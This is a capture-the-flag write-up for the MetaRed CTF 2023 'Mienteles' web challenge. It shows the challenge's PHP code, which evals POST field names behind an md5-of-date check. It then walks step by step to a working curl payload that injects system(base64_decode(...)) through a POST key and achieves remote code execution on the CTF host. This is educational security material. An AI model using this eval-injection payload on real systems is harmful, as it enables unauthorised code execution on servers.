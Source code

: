 # MetaRed CTF 2023 - Mienteles

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

In this challenge we given the source code, let's just see the source code.

```php
 <?php

if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mienteles Telecomunicaciones</title>
    
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
</head>
<body>
    
    <nav class="navbar navbar-expand-lg navbar-dark" style="background-color:#005F9F">
        <a class="navbar-brand">Mienteles</a>
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="#">Inicio</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Servicios</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Contacto</a>
                </li>
            </ul>
        </div>
    </nav>

    
 
    <div class="text-center">
        <img src="./mienteles.svg" alt="">
    </div>
    
    <section class="py-5">
        <div class="container">
            <h2 class="text-center">Nuestros Servicios</h2>
            <div class="row">
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio1.jpg" class="card-img-top" alt="Servicio 1" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Bug Bounty Program</h5>
                            <p class="card-text">Tenemos publicado nuestro programa de Bug Bounty. Si encuentras un RCE, no te pagamos :).</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio2.jpg" class="card-img-top" alt="Servicio 2" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Internet</h5>
                            <p class="card-text">Tenemos planes de internet para usted</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio3.jpg" class="card-img-top" alt="Servicio 3"  style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Flag</h5>
                            <p class="card-text">Aquí estará tu flag: </p>
                            <!-- Accede a ?src -->
                            <?php
                                error_reporting(0);
                                if ($_POST['keyl']==md5(date('Y-m-d'))){
                                            foreach($_POST as $name => $value){        
                                                $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                                                eval($assign);
                                            }
                                }
                                else{
                                    echo "No podes hackearme";
                                }

                            ?>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </section>

    
    <footer class="footer text-white text-center py-3" style="background-color:#005F9F">
        <div class="container">
            <p>&copy; 2023 Mienteles Telecomunicaciones. Todos los derechos reservados.</p>
        </div>
    </footer>

    
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>

```

From the source code, we know that to get the flag we need to do post request with key keyl which is must to be equal to \`md5(date('Y-m-d'))\`.

We know using md5 function potential to hash collision and in the code the program is md5 hashed date of current date, which mean it's easy to get the hash by using php to do md5 hash.

{% code title="md5.php" lineNumbers="true" %}
```php
<?php
    echo md5(date('Y-m-d'));
?>
```
{% endcode %}

And then in local i created replicated php code like on server.

{% code title="index.php" lineNumbers="true" %}
```php
<?php
    if ($_POST['keyl']==md5(date('Y-m-d'))){
                foreach($_POST as $name => $value){        
                    $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                    echo $assign;
                    eval($assign);
                }
    }
    else{
        echo "No podes hackearme";
    }
?>
```
{% endcode %}

And just run the index.php and used result from md5.php as value of key \`keyl\` post data.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

As you can see, the local server return with `$keyl='6bde8c88ffee17ea27c8e281299dcf47';` which our post data is set as variable and value in php and based on the source code, the result will used in `eval` function which is we know the `eval` function is evil.

Then i try add more post data and if i try to called function system as post value, our input got cleaned.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

After try a few times, i realized that we can manipulate the key post data. For basic i try add \`'\` in key value and i got something interesting.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

The result return with `$cmd'` and the local server is crashed/error. which maybe we can get remote code execution from it, after try a few times finaly i can make the local server return with proper php code and the local server is not crashed/error.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

But we have problem, if we try to run command with space it will replace it with `_` .

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

But we can bypass it by base64 encoded the command.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

and we can try it on server using below command.

```sh
curl -X POST https://mienteles.ctf.cert.unlp.edu.ar/ --data "keyl=6bde8c88ffee17ea27c8e281299dcf47&cmd;system(base64_decode('bHMgLWxhCg'));//'=12);"
```

And we successfully get remote code execution.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Flag: flag{N1c3!No\_B0untY\_But\_Th1s\_1s\_ur\_fl4G}
